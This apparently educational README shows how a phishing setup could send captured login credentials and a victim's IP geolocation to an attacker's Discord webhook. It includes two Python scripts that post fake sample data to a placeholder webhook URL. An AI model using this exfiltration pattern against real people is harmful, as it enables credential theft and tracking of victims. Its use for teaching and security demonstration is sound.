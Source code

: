 ## 📬 Webhook Demo: Sending to Discord

Discord webhooks can be used to simulate how data from a phishing attack might be sent to an attacker’s Discord channel. Discord allows webhook URLs for custom integrations, making it a great tool for educational demonstrations.

---

### **Step 1: Set Up a Discord Webhook**

1. Create a Discord server if you don’t already have one.
2. Navigate to the desired channel and click:
   - **Edit Channel > Integrations > Webhooks.**
3. Click **"New Webhook"** to create a webhook.
4. Customize the webhook (name, avatar, etc.) if desired.
5. Copy the **webhook URL**, which will be used to send data.

---

### **Step 2: Send Data to the Webhook**

Below is a Python script that sends sample data to your Discord webhook.

```python
import requests

# Replace with your Discord webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

data = {
    "content": "🔒 **New Login Attempt Captured**",
    "embeds": [
        {
            "title": "Login Details",
            "fields": [
                {"name": "Username", "value": "test_user", "inline": True},
                {"name": "Password", "value": "password123", "inline": True},
            ],
            "color": 16711680  # Red color
        }
    ]
}

# Send data to the Discord webhook
response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Data sent to Discord successfully!")
else:
    print(f"Failed to send data: {response.status_code}")
```
### 3. View the Results: 

Check the Discord channel where you set up the webhook. You should see a message with the fake login data.

### 4. Simulating Advanced Webhook Attacks

Webhook with Geolocation

Capture the victim’s IP address and location data using a geolocation API.

```python
import requests

# Replace with your webhook URL
webhook_url = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"

# Simulated victim data
ip_address = "8.8.8.8"
location_data = requests.get(f"https://ipapi.co/{ip_address}/json/").json()

data = {
    "content": "🌍 **New Victim Geolocation Captured**",
    "embeds": [
        {
            "title": "Victim Details",
            "fields": [
                {"name": "IP Address", "value": ip_address, "inline": True},
                {"name": "City", "value": location_data['city'], "inline": True},
                {"name": "Country", "value": location_data['country_name'], "inline": True},
            ],
            "color": 65280  # Green color
        }
    ]
}

response = requests.post(webhook_url, json=data)

if response.status_code == 204:
    print("Geolocation data sent to Discord!")
else:
    print(f"Failed to send data: {response.status_code}")
```